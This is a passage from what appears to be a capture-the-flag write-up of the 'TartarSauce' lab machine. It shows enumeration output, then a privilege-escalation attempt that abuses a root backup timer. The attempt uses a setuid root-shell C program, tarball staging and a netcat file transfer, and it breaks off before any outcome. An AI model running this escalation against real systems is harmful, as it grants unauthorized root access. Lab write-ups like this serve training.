total 40K
drwxr-xr-x  6 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 js
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
-rwxr-xr-x  1 root root 9.8K Apr  5  2016 plugins.admin.php
-rwxr-xr-x  1 root root  625 Apr  5  2016 plugins.plugin.php
drwxr-xr-x  3 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/plugins/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  470 Apr  5  2016 plugins.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/plugins/js:
total 16K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   31 Apr  5  2016 .htaccess
-rwxr-xr-x 1 root root  327 Apr  5  2016 plugins.js

/var/www/html/webservices/monstra-3.0.4/plugins/box/plugins/languages:
total 88K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  768 Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root  732 Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root  750 Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root  805 Apr  5  2016 fa.lang.php
-rwxr-xr-x 1 root root  764 Apr  5  2016 fr.lang.php
-rwxr-xr-x 1 root root  743 Apr  5  2016 hu.lang.php
-rwxr-xr-x 1 root root  740 Apr  5  2016 id.lang.php
-rwxr-xr-x 1 root root  740 Apr  5  2016 it.lang.php
-rwxr-xr-x 1 root root  825 Apr  5  2016 ja.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root  765 Apr  5  2016 lt.lang.php
-rwxr-xr-x 1 root root  765 Apr  5  2016 nl.lang.php
-rwxr-xr-x 1 root root  752 Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root  741 Apr  5  2016 pt-br.lang.php
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root  756 Apr  5  2016 sk.lang.php
-rwxr-xr-x 1 root root  743 Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root  678 Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root  874 Apr  5  2016 uk.lang.php
-rwxr-xr-x 1 root root  659 Apr  5  2016 zh-cn.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/plugins/views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 backend

/var/www/html/webservices/monstra-3.0.4/plugins/box/plugins/views/backend:
total 20K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 8.3K Apr  5  2016 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/sitemap:
total 24K
drwxr-xr-x  5 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
-rwxr-xr-x  1 root root 3.4K Apr  5  2016 sitemap.plugin.php
drwxr-xr-x  3 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/sitemap/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  461 Apr  5  2016 sitemap.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/sitemap/languages:
total 84K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  106 Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root  106 Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root  112 Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root  116 Apr  5  2016 fa.lang.php
-rwxr-xr-x 1 root root  114 Apr  5  2016 fr.lang.php
-rwxr-xr-x 1 root root  112 Apr  5  2016 hu.lang.php
-rwxr-xr-x 1 root root  106 Apr  5  2016 it.lang.php
-rwxr-xr-x 1 root root  117 Apr  5  2016 ja.lang.php
-rwxr-xr-x 1 root root  130 Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root  106 Apr  5  2016 lt.lang.php
-rwxr-xr-x 1 root root  106 Apr  5  2016 nl.lang.php
-rwxr-xr-x 1 root root  111 Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root  111 Apr  5  2016 pt-br.lang.php
-rwxr-xr-x 1 root root  120 Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root  114 Apr  5  2016 sk.lang.php
-rwxr-xr-x 1 root root  113 Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root  113 Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root  120 Apr  5  2016 uk.lang.php
-rwxr-xr-x 1 root root  111 Apr  5  2016 zh-cn.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/sitemap/views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 frontend

/var/www/html/webservices/monstra-3.0.4/plugins/box/sitemap/views/frontend:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-[-] SUID files:
-rwsr-xr-x 1 root root 26492 Nov 30  2017 /bin/umount
-rwsr-xr-x 1 root root 34812 Nov 30  2017 /bin/mount
-rwsr-xr-x 1 root root 38932 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30112 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 38900 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 157424 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 43316 May  7  2014 /bin/ping6
-rwSr--r-T 1 root root 150667 Mar  9  2018 /var/www/html/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ȜӎŗgͷͼȜ_5h377
-rwsr-xr-x 1 root root 18216 Jan 17  2016 /usr/bin/pkexec
-rwsr-xr-x 1 root root 34680 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 48264 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 39560 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 159852 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 78012 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 36288 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 53128 May 16  2017 /usr/bin/passwd
-rwsr-sr-x 1 daemon daemon 50748 Jan 14  2016 /usr/bin/at
-rwsr-xr-x 1 root root 36288 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-- 1 root messagebus 46436 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 513528 Jan 18  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 13960 Jan 17  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 42396 Jun 14  2017 /usr/lib/i386-linux-gnu/lxc/lxc-user-nic
-rwsr-sr-x 1 root root 105004 Apr 11  2018 /usr/lib/snapd/snap-confine


[+] Possibly interesting SUID files:
-rwsr-xr-x 1 root root 513528 Jan 18  2018 /usr/lib/openssh/ssh-keysign


[-] GUID files:
-rwxr-sr-x 1 root shadow 38664 Apr  9  2018 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 38684 Apr  9  2018 /sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root mlocate 34452 Nov 18  2014 /usr/bin/mlocate
-rwxr-sr-x 1 root ssh 431632 Jan 18  2018 /usr/bin/ssh-agent
-rwxr-sr-x 1 root crontab 38996 Apr  5  2016 /usr/bin/crontab
-rwxr-sr-x 1 root tty 9788 Mar  1  2016 /usr/bin/bsd-write
-rwxr-sr-x 1 root shadow 22000 May 16  2017 /usr/bin/expiry
-rwxr-sr-x 1 root utmp 464152 Feb  7  2016 /usr/bin/screen
-rwxr-sr-x 1 root shadow 61276 May 16  2017 /usr/bin/chage
-rwxr-sr-x 1 root tty 26356 Nov 30  2017 /usr/bin/wall
-rwsr-sr-x 1 daemon daemon 50748 Jan 14  2016 /usr/bin/at
-rwxr-sr-x 1 root utmp 5480 Mar 11  2016 /usr/lib/i386-linux-gnu/utempter/utempter
-rwsr-sr-x 1 root root 105004 Apr 11  2018 /usr/lib/snapd/snap-confine


[+] Possibly interesting GUID files:
-rwxr-sr-x 1 root ssh 431632 Jan 18  2018 /usr/bin/ssh-agent


[+] Files with POSIX capabilities set:
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep


[-] World-writable files (excluding /proc and /sys):
-rw-rw-rw- 1 root root 730 Feb 21  2018 /var/www/html/webservices/monstra-3.0.4/sitemap.xml
-rw-rw-rw- 1 root root 141 Feb 21  2018 /var/www/html/webservices/monstra-3.0.4/storage/pages/1.page.txt
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/user.slice/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/init.scope/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/irqbalance.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/lxd-containers.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/lvm2-lvmetad.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/apport.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/polkitd.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/sys-kernel-debug.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/boot.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/open-iscsi.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-random-seed.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/dev-disk-by-id-dm-uuid-LVM-s9b7Qx7RdzbrmpOLal9Vd2L5RXPTLJKehaXQcTHrD2H6zIUuvD5n0QYH6yEDLjUn.swap/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/grub-common.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-journal-flush.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-timesyncd.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-user-sessions.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/sys-kernel-config.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/unattended-upgrades.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/ondemand.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/dev-hugepages.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/lvm2-monitor.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/lxcfs.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/snapd.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/iscsid.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/sys-fs-fuse-connections.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/resolvconf.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/dbus.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/ifup@ens33.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/var-lib-lxcfs.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/accounts-daemon.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-modules-load.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/dev-mqueue.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-tmpfiles-setup.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-remount-fs.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/system-getty.slice/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/open-vm-tools.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-update-utmp.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/system-systemd-fsck.slice/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/keyboard-setup.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/proc-sys-fs-binfmt_misc.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/apparmor.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-logind.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/rc-local.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/mysql.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/cron.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/apache2.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-udevd.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/acpid.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/rsyslog.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/networking.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-tmpfiles-setup-dev.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/dev-disk-by-id-dm-name-pseudonym--vg-swap_1.swap/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/atd.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/dev-mapper-pseudonym--vg-swap_1.swap/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-journald.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/console-setup.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/dev-pseudonym-vg-swap_1.swap/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/kmod-static-nodes.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/ufw.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/dev-disk-by-uuid-0be71ade-d24d-4609-a48e-32c26969430c.swap/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-sysctl.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/-.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/mdadm.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/setvtrgb.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/dev-dm-1.swap/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:56 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-udev-trigger.service/cgroup.event_control


[-] NFS displaying partitions and filesystems - you need to check if exotic filesystems
# /etc/fstab: static file system information.
#
# Use 'blkid' to print the universally unique identifier for a
# device; this may be used with UUID= as a more robust way to name devices
# that works even if disks are added and removed. See fstab(5).
#
# <file system> <mount point>   <type>  <options>       <dump>  <pass>
/dev/mapper/pseudonym--vg-root /               ext4    errors=remount-ro 0       1
# /boot was on /dev/sda1 during installation
UUID=b4cd62bf-1293-4acb-8a5a-91085c7d55a4 /boot           ext2    defaults        0       2
/dev/mapper/pseudonym--vg-swap_1 none            swap    sw              0       0


[-] Can't search *.conf files as no keyword was entered

[-] Can't search *.php files as no keyword was entered

[-] Can't search *.log files as no keyword was entered

[-] Can't search *.ini files as no keyword was entered

[-] All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 191 Jan 18  2016 /etc/libaudit.conf
-rw-r--r-- 1 root root 3028 Aug  1  2017 /etc/adduser.conf
-rw-r--r-- 1 root root 8464 Feb  9  2018 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 771 Mar  6  2015 /etc/insserv.conf
-rw-r--r-- 1 root root 338 Nov 18  2014 /etc/updatedb.conf
-rw-r--r-- 1 root root 2231 May  2  2018 /etc/sysctl.conf
-rw-r--r-- 1 root root 604 Jul  2  2015 /etc/deluser.conf
-rw-r--r-- 1 root root 2969 Nov 10  2015 /etc/debconf.conf
-rw-r--r-- 1 root root 100 Jan 10  2017 /etc/sos.conf
-rw-r--r-- 1 root root 497 May  4  2014 /etc/nsswitch.conf
-rw-r--r-- 1 root root 2584 Feb 18  2016 /etc/gai.conf
-rw-r--r-- 1 root root 6920 Jan 11  2018 /etc/overlayroot.conf
-rw-r--r-- 1 root root 34 Jan 27  2016 /etc/ld.so.conf
-rw-r--r-- 1 root root 552 Mar 16  2016 /etc/pam.conf
-rw-r--r-- 1 root root 1371 Jan 27  2016 /etc/rsyslog.conf
-rw-r--r-- 1 root root 280 Jun 20  2014 /etc/fuse.conf
-rw-r--r-- 1 root root 92 Oct 22  2015 /etc/host.conf
-rw-r--r-- 1 root root 350 Feb  9  2018 /etc/popularity-contest.conf
-rw-r--r-- 1 root root 4781 Mar 17  2016 /etc/hdparm.conf
-rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
-rw-r--r-- 1 root root 967 Oct 30  2015 /etc/mke2fs.conf
-rw-r--r-- 1 root root 14867 Apr 12  2016 /etc/ltrace.conf
-rw-r--r-- 1 root root 703 May  6  2015 /etc/logrotate.conf
-rw-r--r-- 1 root root 144 Feb  9  2018 /etc/kernel-img.conf


[-] Current user's history files:
lrwxrwxrwx 1 root  root   9 Feb 17  2018 /home/onuma/.bash_history -> /dev/null
-rwxrw---- 1 onuma onuma 52 Feb 17  2018 /home/onuma/.mysql_history


[-] Location and contents (if accessible) of .bash_history file(s):
/home/onuma/.bash_history


[-] Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Aug  1  2017 .
drwxr-xr-x 14 root root 4096 Feb  9  2018 ..


### SCAN COMPLETE ####################################
onuma@TartarSauce:~$
```

```sh
onuma@TartarSauce:~$ locate backuperer
/etc/systemd/system/multi-user.target.wants/backuperer.timer
/lib/systemd/system/backuperer.service
/lib/systemd/system/backuperer.timer
/usr/sbin/backuperer
onuma@TartarSauce:~$
```

```sh
onuma@TartarSauce:~$ cat /etc/systemd/system/multi-user.target.wants/backuperer.timer
[Unit]
Description=Runs backuperer every 5 mins

[Timer]
# Time to wait after booting before we run first time
OnBootSec=5min
# Time between running each consecutive time
OnUnitActiveSec=5min
Unit=backuperer.service

[Install]
WantedBy=multi-user.target
onuma@TartarSauce:~$
```

```sh
root@kali:~/tartarsauce# nano backuperer
```



###### Gaining root

```sh
onuma@TartarSauce:~$ cd /var/tmp/
onuma@TartarSauce:/var/tmp$ ls
systemd-private-2e5dc4027a6e4729b9b8aa40bf5faf30-systemd-timesyncd.service-IbGFZm  systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS  systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ  systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
onuma@TartarSauce:/var/tmp$ mkdir -p var/www/html
onuma@TartarSauce:/var/tmp$ cd var/www/html/
onuma@TartarSauce:/var/tmp/var/www/html$ gcc
The program 'gcc' is currently not installed. To run 'gcc' please ask your administrator to install the package 'gcc'
onuma@TartarSauce:/var/tmp/var/www/html$ uname -a
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
onuma@TartarSauce:/var/tmp/var/www/html$
```

```sh
root@kali:~/tartarsauce# apt install gcc-multilib
Reading package lists... Done
Building dependency tree
Reading state information... Done
gcc-multilib is already the newest version (4:8.2.0-1).
The following packages were automatically installed and are no longer required:
  dh-python libbabeltrace-ctf1 libcamel-1.2-60 libcdio17 libcue1 libedataserver-1.2-22 libedataserverui-1.2-1 libhttp-parser2.7.1 libisl15 libllvm5.0 libnfs8 libsynctex1 libtcl8.5 libtk8.5 libuv1
  libx265-146 nodejs-doc openjdk-9-jdk openjdk-9-jdk-headless openjdk-9-jre python-subprocess32 tk8.5
Use 'apt autoremove' to remove them.
0 upgraded, 0 newly installed, 0 to remove and 1480 not upgraded.
root@kali:~/tartarsauce#
```

`suid.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main ( int argc, char *argv[] )
{
	setreuid(0,0);
	execve("/bin/sh", NULL, NULL);
}
```

```sh
root@kali:~/tartarsauce# gcc -m32 suid.c -o suid
```

```sh
root@kali:~/tartarsauce# ls -l suid*
-rwxr-xr-x 1 root root 15480 Nov  5 19:24 suid
-rw-r--r-- 1 root root   148 Nov  5 19:24 suid.c
root@kali:~/tartarsauce#
```

```sh
root@kali:~/tartarsauce# mkdir -p var/www/html
root@kali:~/tartarsauce# cp suid var/www/html/
root@kali:~/tartarsauce# cd var/www/html/
root@kali:~/tartarsauce/var/www/html# ls -l
total 16
-rwxr-xr-x 1 root root 15480 Nov  5 22:25 suid
root@kali:~/tartarsauce/var/www/html# chmod 6555 suid
root@kali:~/tartarsauce/var/www/html# ls -l
total 16
-r-sr-sr-x 1 root root 15480 Nov  5 22:25 suid
root@kali:~/tartarsauce/var/www/html# cd ../../../
root@kali:~/tartarsauce# tar -zcvf setuid.tar.gz var/
var/
var/www/
var/www/html/
var/www/html/suid
root@kali:~/tartarsauce# 
```

```sh
root@kali:~/tartarsauce# nc -lvnp 9002 < setuid.tar.gz
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9002
Ncat: Listening on 0.0.0.0:9002
Ncat: Connection from 10.10.10.88.
Ncat: Connection from 10.10.10.88:57052.
root@kali:~/tartarsauce#
```

```sh
onuma@TartarSauce:/var/tmp$ nc 10.10.14.8 9002 > setuid.tar.gz
onuma@TartarSauce:/var/tmp$ ls -lah
total 36K
drwxrwxrwt  8 root  root  4.0K Nov  5 22:45 .
drwxr-xr-x 14 root  root  4.0K Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 2.7K Nov  5 22:26 setuid.tar.gz
drwx------  3 root  root  4.0K Nov  5 02:03 systemd-private-2e5dc4027a6e4729b9b8aa40bf5faf30-systemd-timesyncd.service-IbGFZm
drwx------  3 root  root  4.0K Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root  4.0K Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
drwx------  3 root  root  4.0K Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
drwx------  3 root  root  4.0K Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
drwx------  3 root  root  4.0K Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
onuma@TartarSauce:/var/tmp$
```

```sh
onuma@TartarSauce:/var/tmp$ systemctl list-timers
WARNING: terminal is not fully functional
NEXT                         LEFT          LAST                         PASSED       UNIT                         ACTIVATES
Mon 2018-11-05 22:50:06 EST  4min 5s left  Mon 2018-11-05 22:45:06 EST  54s ago      backuperer.timer             backuperer.service
